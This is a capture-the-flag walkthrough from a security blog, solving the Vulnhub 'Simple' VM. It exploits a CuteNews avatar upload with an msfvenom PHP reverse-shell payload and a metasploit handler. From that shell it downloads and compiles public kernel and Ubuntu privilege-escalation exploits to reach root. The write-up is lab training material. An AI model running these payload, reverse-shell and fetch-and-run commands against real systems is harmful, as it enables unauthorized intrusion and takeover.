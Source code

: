 Title:Vulnhub SecTalks: BNE0x03 - Simple
Date: 05-11-2016 19:55
category:security
tags:msfvenom, security, vulnhub, metasploit, boot2root, linux
meta:msfvenom, security, vulnhub, metasploit, boot2root, linux

<img class="align-left"
src="/media/2016.05/simple1.png" alt="Simple homepage" width="162">

As droopy was not really hard and doesn't contain as much web vulnerability as I
would hope for, I tried an other VM
[SecTalks: BNE0x03 - Simple](https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141/)
There were also hints on the description of the machine but with my resolution
they do not appear when just browsing the main page of vulnhub so I have not
spoiled myself with the hints this time.

<!-- PELICAN_END_SUMMARY -->

## Discovery

Let's nmap the box to get some knowledge about it:

    root@kalili:~# nmap 10.0.2.5 -p0-65535

    Starting Nmap 7.12 ( https://nmap.org ) at 2016-05-11 15:42 CEST
    Nmap scan report for 10.0.2.5
    Host is up (0.00032s latency).
    Not shown: 65535 closed ports
    PORT   STATE SERVICE
    80/tcp open  http
    MAC Address: 08:00:27:60:21:5C (Oracle VirtualBox virtual NIC)

    Nmap done: 1 IP address (1 host up) scanned in 2.60 seconds

There seems once more that only the port 80 with a HTTP service is available.

## Web

We go to the website. We notice that it is powered by CuteNews 2.0.3 (look at
the footer). We search on internet for vulnerability and found
[one](https://www.exploit-db.com/exploits/37474/).
This vulnerability allow the execute PHP code by uploading a malicious avatar.

![Simple homepage](/media/2016.05/simple1.png){: .image-process-article-image}

We create an account in order to upload our avatar.

![Simple account page](/media/2016.05/simple2.png){: .image-process-article-image}

We generate a PHP meterpreter using `msfvenom`:

    msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -e php/base64 -f raw > /tmp/shell.php

We prepare our metasploit for the callback:

    msf > use exploit/multi/handler
    msf exploit(handler) > set payload php/meterpreter/reverse_tcp
    payload => php/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 10.0.2.5
    LHOST => 10.0.2.5
    msf exploit(handler) > set LPORT 4444
    LPORT => 4444
    msf exploit(handler) > exploit
    [*] Started reverse handler on 10.0.2.5:4444
    [*] Starting the payload handler...

We upload our msfvenom's payload as our avatar.

We go to `http://10.0.2.5/uploads/avatar_john_shell.php` and we got our
meterpreter!
Let's see what this box is made of:

    uname -a
    Linux simple 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux

Once more an Ubuntu 14.04, like the droopy from yesterday.

## Privileges escalation

### CVE-2015-1328 exploiting overlayFS

Let us try once again to exploit the CVE-2015-1328 exploiting overlayFS to get
a root shell on the machine. I started a shell from the meterpreter, download
the exploit, compile it, run it and failed it:

    meterpreter > shell
    Process 1335 created.
    Channel 3 created.
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    wget https://www.exploit-db.com/download/37292
    --2016-05-11 09:59:52--  https://www.exploit-db.com/download/37292
    Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
    Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 5123 (5.0K) [application/txt]
    Saving to: '37292'

        0K .....                                                 100%  409M=0s

    2016-05-11 09:59:53 (409 MB/s) - '37292' saved [5123/5123]

    mv 37292 ofs.c
    gcc ofs.c -o ofs
    ls
    avatar_john_shell.php
    ofs
    ofs.c
    chmod +x ofs
    ./ofs
    spawning threads
    mount #1
    mount #2
    child threads done
    exploit failed

When searching for exploit regarding linux 3.16.0 I found the CVE-2014-5207:

### CVE-2014-5207 Fuse-based exploit

[CVE-2014-5207 Fuse-based exploit](https://www.exploit-db.com/exploits/34923/).
I download the exploit, compiled it and once more failed it:

    :::text
    gcc -Wall fuse_suid.c `pkg-config fuse --cflags --libs` -o fuse_suid
    /bin/sh: 1: pkg-config: not found
    fuse_suid.c:21:18: fatal error: fuse.h: No such file or directory
    #include <fuse.h>
                      ^
    compilation terminated

When searching for `ubuntu 14.04 privilege escalation exploit` I found two
interesting exploits :
 * CVE-2015-3643
 * CVE-2015-1318 + CVE-2015-1862

### CVE-2015-3643

[The CVE-2015-3643](https://www.exploit-db.com/exploits/36820/) exploit the
D-Bus listening on com.ubuntu.USBCreator.
I try this exploit but the module was not available and failed:

    dbus-send --print-reply --system --dest=com.ubuntu.USBCreator /com/ubuntu/USBCreator com.ubuntu.USBCreator.KVMTest string:/dev/sda dict:string:string:DISPLAY,"foo",XAUTHORITY,"foo",LD_PRELOAD,"/tmp/test.so"
    Error org.freedesktop.DBus.Error.ServiceUnknown: The name com.ubuntu.USBCreator was not provided by any .service files

### CVE-2015-1318 + CVE-2015-1862

[The CVE-2015-1318 + CVE-2015-1862](https://www.exploit-db.com/exploits/36746/)
exploit a feature in ubuntu 14.04 allowing a user to forward crash reports.

I download the exploit, compiled it with `-static` and run it to get a root
shell on the box:

    meterpreter > shell
    Process 1550 created.
    Channel 9 created.
    cd /tmp/
    wget https://www.exploit-db.com/download/36746
    --2016-05-11 11:22:39--  https://www.exploit-db.com/download/36746
    Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
    Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 5216 (5.1K) [application/txt]
    Saving to: '36746'

        0K .....                                                 100%  337M=0s

    2016-05-11 11:22:43 (337 MB/s) - '36746' saved [5216/5216]

    mv 36746 newpid.c
    gcc -static newpid.c
    newpid.c:17:3: warning: #warning this file must be compiled with -static [-Wcpp]
    # warning this file must be compiled with -static
      ^
    ./a.out
    uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
    id
    uid=0(root) gid=33(www-data) groups=0(root),33(www-data)

## Conclusion

We just need to get our hands on the flag to finish it.

    cat /root/flag.txt
    U wyn teh Interwebs!!1eleven11!!1!
    Hack the planet

It was a nice box with still not so much web exploitation and only one exploit
to launch to get to root.
Thanks to [Robert Winkel](https://twitter.com/@RobertWinkel) for the box and as
always to Vulnhub for their work.
